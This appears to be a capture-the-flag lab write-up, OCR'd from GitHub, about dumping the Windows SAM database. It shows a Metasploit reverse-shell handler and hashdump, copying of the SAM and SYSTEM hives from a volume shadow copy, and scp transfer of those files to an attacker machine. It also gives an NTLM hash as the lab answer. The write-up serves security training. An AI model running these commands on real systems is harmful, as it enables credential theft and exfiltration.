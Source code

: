       use exploit/multi/handler
      set payload windows/x64/meterpreter/reverse_tcp
      exploit
  
- Dump Hashes:

        meterpreter > hashdump
    - Output: Same as Method 1.
 

<br>

## _Answers_

Follow the technique discussed in this task to dump the content of the SAM database file. What is the NTLM hash for the Administrator account?

      98d3a787a80d08385cea7fb4aa2a4261
      

> TO FIND
- For this, I started with checking the shadow copy..
   
       vssadmin list shadows

- After this, I copied both, sam & system files..

      copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\thm\Desktop\sam
      copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\\users\thm\Desktop\system         

  ![image](https://github.com/user-attachments/assets/3f8bbaf0-e482-4486-ae2f-24f43bd7c57b)

  

  Now, we got our self the copies of both files.

  ![image](https://github.com/user-attachments/assets/065227a1-bfbf-45f7-b53b-ae8579425ee6)


- Now, we need to move these files to our Attacker Machine, so I simply used scp for file transfer..

        scp sam root@10.10.90.246:/root/.

  ![image](https://github.com/user-attachments/assets/bb813a5c-859a-4386-91fe-3ebf30cd6fc8)


  Simillarly, I used the same command again by just changing the file name..

      scp system root@10.10.90.246:/root/.

  ![image](https://github.com/user-attachments/assets/9c0dcb28-777a-4d25-9be8-2aea3fe53772)


  We can see the files in our attack machine.
  
  ![image](https://github.com/user-attachments/assets/7aeb6599-4410-4e80-b701-3295a0b7fee8)
